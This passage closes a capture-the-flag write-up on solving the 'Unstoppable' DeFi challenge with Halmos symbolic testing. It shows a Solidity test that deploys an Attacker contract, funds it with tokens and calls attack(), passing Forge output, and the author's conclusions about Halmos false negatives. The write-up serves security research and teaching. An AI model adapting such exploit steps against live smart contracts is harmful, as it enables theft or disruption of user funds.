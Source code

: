 ```javascript
/**
* CODE YOUR SOLUTION HERE
*/
function  test_unstoppable() public  checkSolvedByPlayer {
	Attacker attacker =  new  Attacker();
	token.transfer(address(attacker), INITIAL_PLAYER_TOKEN_BALANCE);
	attacker.add_known_address(address(token));
	attacker.add_known_address(address(vault));
	attacker.add_known_address(address(monitorContract));
	attacker.attack();
}
```
Let's execute:
```bash
forge test -vv --mp test/unstoppable/Unstoppable.t.sol
...
Ran 2 tests for test/unstoppable/Unstoppable.t.sol:UnstoppableChallenge
[PASS] test_assertInitialState() (gas: 57390)
[PASS] test_unstoppable() (gas: 332461)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 2.62ms (331.63µs CPU time)

Ran 1 test suite in 7.44ms (2.62ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
Success! The challenge "Unstoppable" is solved successfully using Halmos symbolic testing.
## Conclusions
1. Yes, we have proved that Halmos is ABLE to find solution for such CTF challenges
2.  I don't know where that number of false-negative counterexamples came from. This is a big problem and this question should be answered in future
3. I don't know why some random read of public variable from "vault" contract fixed counterexamples. It looks like a bug and this question should be answered as well
4. Counterexamples analysis may be tricky because of hard-coded addresses and parameters. We can't just put counterexample in initial code and expect it will behave as expected